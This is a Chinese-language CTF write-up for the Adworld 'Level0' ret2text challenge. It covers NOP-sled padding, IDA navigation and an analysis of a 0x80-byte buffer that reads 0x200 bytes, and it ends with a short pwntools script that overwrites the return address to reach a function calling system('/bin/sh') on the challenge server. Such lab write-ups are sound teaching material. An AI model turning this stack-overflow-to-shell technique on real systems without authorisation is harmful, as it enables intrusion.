 4.当ida/pwndbg等返回的shellcode起始地址不一样时，可以通过在 padding2 里填充若干长度的 “\x90”解决。这个机器码对应的指令是 NOP (No Operation)，也就是告诉 CPU 什么也不做，然后跳到下一条指令。有了这一段 NOP 的填充，只要返回地址能够命中这一段中的任意位置，都可以无副作用地跳转到 shellcode 的起始处

5.shellcode必须使用十六进制机器码编写。

#### 攻防世界 Level0 RET2TEXT

先说几个比较常见的快捷键（毕竟第一次用ida并没有昨天借机子操作时侯的窗口）

*在一个窗口内可以右键在text view/graph view内切换。

*按下F5可以查看选取函数的伪代码（就是C语言输入的代码）

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159328.png)

很显然这个vulnerable_function是一个可疑函数，点进去看看

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159329.png)

首先定义一个长度为0x80的字符串，但第二句0x200uLL说明可以最多向其中输入0x200的内容。可以使用shellcode

进入buf看下栈结构：

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159330.png)

注意看上面的解释：r和s分别代表返回地址和保存的寄存器，栈长度0x80,寄存器长度0x8。

<img src="https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159326.png" style="zoom:50%;" />

也就是说，只要把Local variable和caller's ebp全部用垃圾数据填满，就可以直接覆写return address。

找敏感函数的返回地址：callsystem

```c
int callsystem()
{
  return system("/bin/sh");

```

相当于直接打开shell。

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159331.png)

函数地址：0x400596（一定要注意，返回的地址需要是函数的地址，这样才能保证该函数被调用）

shellcode:

```python
from pwn import *
p = remote('61.147.171.105',56876)
address = p64(0x400596)
p.send(b'a'*0x88+address) 
p.interactive()
```

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404151159332.png)
